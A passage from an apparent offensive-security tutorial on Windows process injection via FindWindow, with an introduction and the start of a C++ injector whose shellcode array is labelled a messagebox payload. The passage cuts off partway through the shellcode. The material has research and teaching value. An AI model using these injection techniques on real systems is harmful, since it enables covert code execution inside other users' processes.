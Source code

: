 \newpage
\subsection{30. process injection via FindWindow. Simple C++ example.}

﷽

![injection](./images/43/2022-03-15_11-10.png){width="80%"}    

This post is the result of my self-researching one of the Win32 API function.   

One of my [previous](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html) posts, I wrote how to find process by name, for my injector?    

When writing process or DLL injectors, it would be nice to find, for example, all windows running in the system and try to inject into the process launched by the administrator. In the simplest case to find the any window of a process that will be our victim.    

### practical example

The flow is this technique is simple. Let's go to investigate source code:

```cpp
/*
 * hack.cpp - classic process injection 
 * via FindWindow. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/08/malware-injection-17.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
```